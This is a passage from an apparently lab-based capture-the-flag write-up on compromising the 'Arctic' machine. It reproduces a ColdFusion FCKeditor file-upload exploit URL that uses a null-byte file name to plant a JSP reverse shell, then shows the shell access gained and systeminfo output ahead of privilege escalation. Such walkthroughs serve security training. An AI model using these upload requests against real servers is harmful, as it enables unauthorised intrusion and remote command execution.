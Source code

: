 ```python
    p2 = Process(target=execute_payload)
    p2.start()
    p1.join()
    p2.join()
```

```bash
http://10.10.10.11:8500/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

The exploit access to the above url to execute an upload resource which help us to upload a **jsp** reverse shell, then the exploit access to the next url.

```bash
http://{rhost}:{rport}/userfiles/file/{filename}.jsp
```

I wonder that it’s where the reverse shell is uploaded.

## Gaining an Initial Foothold

Once executed we gain access as **tolis**.

![Untitled](/HTB/arctic-6.png)

Let’s cat the **user’s flag**.

![Untitled](/HTB/arctic-7.png)

## Escalating Privilege

Now let’s elevate the privileges.

First let’s see what operating system we are using

```powershell
systeminfo
```

```powershell
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ��
System Boot Time:          23/8/2023, 9:42:49 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2294 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 5.024 MB
Virtual Memory: Max Size:  12.285 MB
```